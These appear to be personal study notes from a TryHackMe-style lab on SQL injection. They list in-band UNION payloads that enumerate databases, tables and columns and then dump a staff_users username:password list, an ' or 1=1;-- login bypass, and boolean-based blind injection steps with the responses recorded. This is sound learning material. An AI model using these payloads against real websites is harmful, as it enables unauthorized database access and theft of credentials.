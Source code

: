 ![](Pasted%20image%2020241116223725.png)

# Introduction

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# Example

![](Pasted%20image%2020241116225912.png)

![](Pasted%20image%2020241116225956.png)

# SQL Injection Snippets

## Example 0: Check SQL Injection Vulnarability

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## Example 1: In-band SQL Injection (reflected)

```sql
1 UNION SELECT 1
```

If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

`sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## Example 2: Blind SQL Injection: Bypass Auth

Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## Example 3: Blind SQL Injection: Boolean Based

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

Brute force table name until response is true

```sql
`admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--`
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

